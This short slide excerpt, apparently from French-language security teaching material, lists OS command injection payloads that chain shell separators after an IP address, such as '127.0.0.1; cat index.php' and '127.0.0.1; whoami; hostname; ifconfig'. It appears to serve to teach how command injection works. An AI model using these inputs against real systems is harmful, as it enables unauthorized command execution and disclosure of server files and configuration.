

# LOW LEVEL PIPE : | ou || ou & ou && ou ;
127.0.0.1; ls
127.0.0.1; cat index.php
127.0.0.1; whoami; hostname; ifconfig; ls,,/
127.0.0.1 && echo hacked